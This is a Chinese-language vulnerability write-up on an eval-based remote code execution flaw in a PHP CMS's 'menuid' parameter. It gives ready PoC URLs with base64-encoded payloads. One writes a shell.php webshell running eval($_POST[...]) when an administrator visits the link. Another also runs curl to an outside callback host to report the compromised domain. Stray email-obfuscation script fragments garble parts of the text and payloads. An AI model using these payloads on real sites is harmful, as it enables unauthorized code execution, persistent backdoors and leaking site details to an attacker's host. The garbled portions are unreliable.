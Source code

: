 这时候的`$newarr`为空，

if就不执行，转而执行elseif和else，而`$str`包含着`menuid`的值，<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="c024795f25707126586fa0e4bb80b0a8b0a9aea6af">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>()}`
，这时候`eval()` 就执行了php代码。

### 漏洞复现

**常规poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="aec3cbc0dbc7ca938ad5eedec6dec7c0c8c1">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>()}`

**进阶版poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@(assert(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycpOw)))}`

> 密码1，这要管理员权限才能代码执行，修改下payload，管理员一访问就在当前域名的首页路径下生成shell。

`print_r(base64_encode("fputs(fopen('shell.php','w'),'<?php eval(\$_POST[2]);');system('curl '.\$_SERVER[\"SERVER_NAME\"].'www.0-sec.org');"));`

> 还有另一种payload，会回显的提醒。自动curl请求你的域名，然后回显网站url
>
> 先输出base64的地址，然后在替换下面的字符串> `https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=(${@(assert(eval(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMl0pOycpO3N5c3RlbSgnY3VybCAnLiRfU0VSVkVSWyJTRVJWRVJfTkFNRSJdLic0MzIxLm5yY3VmOS5jZXllLmlvJyk7))))})`

这个字符串有几个点提醒下自己，` assert()`函数执行执行一句php代码，所以在assert前面加个eval，执行多条语句。

参考链接
--------

> https://www.mrwu.red/web/2723.html
